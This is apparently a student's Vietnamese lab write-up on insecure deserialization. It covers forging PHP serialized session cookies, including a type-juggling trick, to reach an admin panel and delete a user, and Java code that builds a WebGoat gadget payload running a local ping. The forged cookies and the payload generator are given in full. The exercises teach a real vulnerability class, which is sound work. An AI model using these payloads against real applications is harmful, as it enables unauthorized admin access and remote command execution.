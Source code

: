 # ltat_lab2
## Bài 7:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/8ec78c64-6948-45e6-858b-bee4f018de1e)


- Mục tiêu của bài này là xóa được user ```carlos``` .
- Trước hết mình phải login bằng user và pass được cho trước.
- Sau một hồi scan thì mình tìm được đường dẫn ```/admin``` .

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/c657e443-280e-40c4-8361-f27aafb68927)


- Có vẻ mình không thể vào được với người dùng bình thường.
- Check sơ qua cookie thì mình thấy một cookie có giá trị là ```session``` .
- Mình sẽ thử bật burpsuite lên để test thử.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/c00d99fd-d043-411b-a24d-d44b345fa787)


- Khi gửi req đến ```/admin``` server sẽ kiểm tra biến session của chúng ta, khi mình decode thử thì ra được một đối tượng là user.
- Điểm đáng chú ý ở đây là giá trị admin của session này đang là 0 ( do biến bool quyết định )
- Giờ mình chỉ cần chuyển nó về thành 1 và gửi req thì có thể bypass phần này.

  ![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/40464057-71cf-40b6-8ed0-984193eaf6f7)


- Giờ thì khi xóa user ```carlos``` chúng ta cũng sẽ làm tương tự.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/07f9b6f5-9609-46b2-aab2-94998f341e08)


```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d```

## Bài 8:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/40278edf-59b9-4757-b827-5918f469a98b)


- Bài này lúc đầu vào cũng giống bài trước nên mình sẽ vào thẳng phần session.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/78681bee-3415-44f3-bf0f-18b6d2670de1)



```O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"f4fb8seskjly3qw37onpt6ujkprn1co7";}```

- Ở đây chúng ta có vài trường mới trong class User này đó là ```username``` và ```access_token```.
- Theo mình hiểu thì ```access_token``` là một trường dùng để kiểm tra xem class có bị sửa đổi gì hay không và nếu nó sai thì sẽ không cho ta truy cập.
- Còn về phần username thì ở đây bắt buộc phải là ```administrator``` .
- Mình đọc hint thì có vẻ bài này được viết trên PHP, và mình nghỉ ngay đến một lỗi trong quá trình so sánh kiểu dữ liệu của PHP đó là php type juggling.
- Từ những dữ kiện trên, mình đã đã tạo được một class mới với giá trị như sau.

```O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}```
- Với Class này, mình đã đổi tên của user và đồng thời ép kiểu dữ liệu của access_token là int với giá trị là 0. Điều này làm cho biến access_token sẽ bị lỗi và trả về giá trị đúng.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/77148656-91ab-4190-a383-3062ad41e0df)


- Vậy là mình đã bypass qua phần admin, bây giờ chỉ cần xóa User là solve được bài này.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/036cf3aa-e73e-4fa5-9418-85bcf3159af4)


```session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9```

## Bài 9:

- Để có WebGoat trên loacal thì trong bài này mình sẽ dùng Docker để hosting.

```docker run -it -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 webgoat/webgoat```
- Sau khi chạy lệnh trên thì trên docker của bạn đã có container của WebGoat.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/397fb3fc-d1e2-4d27-964d-2a378e6baa1f)

- Để truy cập chúng ta chỉ cần vào đường dẫn ```localhost:8080/WebGoat```
  
![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/15f8338f-240b-46a7-9ad8-512cd9ac77c1)

- Sau khi login thì ta sẽ tới đường dẫn ```http://localhost:8080/WebGoat/start.mvc#lesson/InsecureDeserialization.lesson/4``` để có thể thực hiện thử thách.

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/3ea26a36-206d-4144-9255-cedbb77532c6)


- Đây là một chall về JAVA, đề cho chúng ta một đoạn code có sẵn:

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/9c63ccc9-23a1-4d64-9a7f-76473226e4b2)


- Ở đây chúng ta có một đoạn code đáng chú ý.
 
![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/0f68e543-f98e-4824-a01a-3e11b7035693)


- Class VulnerableTaskHolder sẽ truyền mọi taskAction mà ta truyền vào nó, điều này có nghĩa là chúng ta có thể tận dụng điểm này để truyền một câu lệnh nào đó vào đây.
- Mình sẽ viết một đoạn code để có thể tạo một token thực hiện lệnh ```ping``` .

```java

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.util.Base64;
import org.dummy.insecure.framework.VulnerableTaskHolder;


public class Program {
    public static void main(String args[]) throws Exception{
        VulnerableTaskHolder vulnObj = new VulnerableTaskHolder("ping","ping -n 4 127.0.0.1");
		
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(vulnObj);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(bos.toByteArray()));
    }
}
```

![image](https://github.com/TooBunReal/ltat_lab2/assets/89735990/60b9c880-cbe8-4250-adb7-3744f28119d4)


-Đây là Token:
```rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfnChQWOB41NIOieHQAE3BpbmcgLW4gNCAxMjcuMC4wLjF0AARwaW5n```

![393904979_776481387524809_6695519617529434868_n](https://github.com/TooBunReal/ltat_lab2/assets/89735990/e46f6d5b-4765-42d1-b78f-2b6d324799b1)


